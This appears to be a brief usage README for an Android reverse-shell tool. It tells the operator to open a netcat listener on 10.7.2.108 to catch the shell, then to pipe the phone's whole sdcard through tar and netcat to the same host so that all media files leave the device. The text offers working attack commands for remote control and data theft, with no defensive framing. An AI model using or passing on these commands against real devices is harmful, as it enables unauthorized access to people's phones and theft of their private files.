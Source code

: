 # How to use it simple way

## Get reverse shell
In server (10.7.2.108):

```bash
netcat -nlvp 4444
```

Now you will have the reverse shell.

## Download media files
Firstly you open a listening port for the tar file (inside a safe folder which will hold all info):

nc -l -p 7000 | tar -x

In the reverse shell you do the following to start the process of transfering all files:

```bash
cd sdcard
tar -c * | nc 10.7.2.108 7000
```

